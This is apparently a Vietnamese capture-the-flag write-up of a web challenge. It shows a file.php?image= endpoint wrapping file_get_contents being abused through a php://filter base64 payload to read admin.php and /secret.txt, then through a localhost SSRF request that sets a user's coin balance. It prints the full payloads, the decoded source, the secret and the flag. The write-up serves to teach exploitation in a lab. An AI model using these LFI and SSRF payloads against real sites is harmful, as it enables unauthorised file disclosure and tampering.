

# TL;DR

Bài này đã khó hơn bài trước, flag không còn hiện ở trong source nữa nên ta buộc phải tìm cách để kiếm sao cho đủ tiền để mua được **Mystery Gift Box**

# Initial reconnaissance

Ở trên navbar có hai mục đáng chú ý là `Nạp tiền` và `Admin Dashboard` với hai endpoint tương ứng là `/payment.php` và `/admin.php`

Khi thử vào cả hai cái thì ta được kết quả như sau

**/payment.php**


**/admin.php**


Ngoài ra khi bắt các request bằng burp suite mình cũng để ý là các các asset đều được lấy thông qua endpoint `file.php?image=`


# Exploit and get flag

Việc đầu tiên mình làm là thử dùng endpoint `file.php?image=` để truy cập `admin.php`


Sau đấy mình có nhập linh tinh để xem có lỗi gì khai thác được không



Vậy là server sẽ dùng hàm `file_get_contents($_['image'])` để lấy nội dung về sau đó sẽ chặn nếu phát hiện trong nội dung trả về có chứa `<?php`

Sau khi tra google ~~gemini~~ thì mình biết được là hàm `file_get_contents` có hai thuộc tính đặc biệt là:

- Hàm sẽ xử lý khác nhau tùy thuộc vào đối số của nó là **Url** hay **Local Path** cụ thể:

  - **Local Path**: Hàm sẽ đọc toàn bộ nội dung của file như khi ta mở bằng notepad và return nó

  - **Url**: Hàm sẽ gửi một request get đến url được cho vào và return nội dung của request đó

- Hàm có hỗ trợ **PHP Wrapper**

Sau đó mình tiến hành đọc nội dung của `admin.php` thông qua **Base64 filter** để bypass WAF thì được kết quả kết quả như sau

Payload: `/file.php?image=php%3a%2f%2ffilter%2fconvert.base64-encode%2fresource%3dadmin.php`

```
HTTP/1.1 200 OK
Date: Sun, 14 Dec 2025 15:13:19 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.2.29
Vary: Accept-Encoding
Content-Length: 1520
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

PD9waHANCnJlcXVpcmVfb25jZSAnY29uZmlnLnBocCc7DQokc2VjcmV0ID0gdHJpbShmaWxlX2dldF9jb250ZW50cygiL3NlY3JldC50eHQiKSk7DQppZiAoJF9TRVJWRVJbJ1JFTU9URV9BRERSJ10gIT09ICcxMjcuMC4wLjEnICYmICRfU0VSVkVSWydSRU1PVEVfQUREUiddICE9PSAnOjoxJykgew0KICAgIC8vIGh0dHBfcmVzcG9uc2VfY29kZSg0MDMpOw0KICAgIGRpZSgiQ2jhu4kgY8OzIHRo4buDIGPhuq1wIG5o4bqtdCBjb2luIHThu6sgbG9jYWxob3N0ICEiKTsNCn0NCg0KaWYgKCFpc3NldCgkX0dFVFsndXNlcm5hbWUnXSkgfHwgIWlzc2V0KCRfR0VUWydjb2luJ10pIHx8ICFpc3NldCgkX0dFVFsnc2VjcmV0J10pKSB7DQogICAgZGllKCJWdWkgbMOybmcgbmjhuq1wIHVzZXJuYW1lLCBjb2luIHbDoCBTRUNSRVQiKTsNCn0NCg0KaWYgKCRzZWNyZXQgIT09ICRfR0VUWydzZWNyZXQnXSl7DQogICAgZGllKCJTRUNSRVQgYuG6oW4gbmjhuq1wIGtow7RuZyBjaMOtbmggeMOhYy4iKTsNCn0NCg0KJHVzZXJuYW1lID0gdHJpbSgkX0dFVFsndXNlcm5hbWUnXSk7DQokY29pbiA9IChpbnQpJF9HRVRbJ2NvaW4nXTsNCg0KdHJ5IHsNCiAgICAkc3RtdCA9ICRjb25uLT5wcmVwYXJlKCJTRUxFQ1QgKiBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lID0gPyIpOw0KICAgICRzdG10LT5leGVjdXRlKFskdXNlcm5hbWVdKTsNCiAgICAkdXNlciA9ICRzdG10LT5mZXRjaChQRE86OkZFVENIX0FTU09DKTsNCg0KICAgIGlmICghJHVzZXIpIHsNCiAgICAgICAgZGllKCJLaMO0bmcgdMOsbSB0aOG6pXkgdXNlcjogIiAuIGh0bWxzcGVjaWFsY2hhcnMoJHVzZXJuYW1lKSk7DQogICAgfQ0KDQogICAgJHN0bXQgPSAkY29ubi0+cHJlcGFyZSgiVVBEQVRFIHVzZXJzIFNFVCBjb2luID0gPyBXSEVSRSB1c2VybmFtZSA9ID8iKTsNCiAgICAkc3RtdC0+ZXhlY3V0ZShbJGNvaW4sICR1c2VybmFtZV0pOw0KDQogICAgZWNobyAixJDDoyBj4bqtcCBuaOG6rXQgY29pbiBjaG8gPGI+eyR1c2VybmFtZX08L2I+IHRow6BuaCA8Yj57JGNvaW59PC9iPiEiOw0KfSBjYXRjaCAoUERPRXhjZXB0aW9uICRlKSB7DQogICAgZWNobyAiRXJyb3I6ICIgLiBodG1sc3BlY2lhbGNoYXJzKCRlLT5nZXRNZXNzYWdlKCkpOw0KfQ0KPz4NCg==
```

Decode nội dung trả về ta được:

```php
<?php
require_once 'config.php';
$secret = trim(file_get_contents("/secret.txt"));
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1' && $_SERVER['REMOTE_ADDR'] !== '::1') {
    // http_response_code(403);
    die("Chỉ có thể cập nhật coin từ localhost !");
}

if (!isset($_GET['username']) || !isset($_GET['coin']) || !isset($_GET['secret'])) {
    die("Vui lòng nhập username, coin và SECRET");
}

if ($secret !== $_GET['secret']){
    die("SECRET bạn nhập không chính xác.");
}

$username = trim($_GET['username']);
$coin = (int)$_GET['coin'];

try {
    $stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
    $stmt->execute([$username]);
    $user = $stmt->fetch(PDO::FETCH_ASSOC);

    if (!$user) {
        die("Không tìm thấy user: " . htmlspecialchars($username));
    }

    $stmt = $conn->prepare("UPDATE users SET coin = ? WHERE username = ?");
    $stmt->execute([$coin, $username]);

    echo "Đã cập nhật coin cho <b>{$username}</b> thành <b>{$coin}</b>!";
} catch (PDOException $e) {
    echo "Error: " . htmlspecialchars($e->getMessage());
}
?>
```

Phân tích source code, mình có những thông tin sau:

- Nếu request không đến từ chính server thì sẽ ngay lập tức bị chặn

- Endpoint sẽ lấy 3 giá trị từ reuqest là `username`, `coin`, và `secret` và cập nhật giá trị `coin` của `username` nếu như `secret` là chính xác

Secret được so sánh sẽ được lấy ở `/secret.txt`

> `$secret = trim(file_get_contents("/secret.txt"));`

Tương tự mình lấy nội dung của `secret.txt` thông qua endpoint `file.php?image=`

**Secret**: `ChiCon1BuocNuaThoi~_~`

Vì hàm `file_get_contents` hỗ trợ việc gửi request qua url nên mình chỉ cần lợi dụng nó gửi request cập nhập database từ localhost của máy chủ là sẽ có được số coin mong muốn

Giá trị của **image** khi đó sẽ là `http://localhost/admin.php?username=abcd&coin=99999999&secret=ChiCon1BuocNuaThoi~_~`

Payload cuối cùng: `/file.php?image=http%3a%2f%2flocalhost%2fadmin.php%3fusername%3dabcd%26coin%3d99999999%26secret%3dChiCon1BuocNuaThoi~_~`

Gửi request và sau khi quay lại trang web chỉ cần mua **Mystery Gift Box** là sẽ có được flag

**Flag**: `KCSC{do_you_have_the_ctrl_u_key_to_get_flags_UwU}`
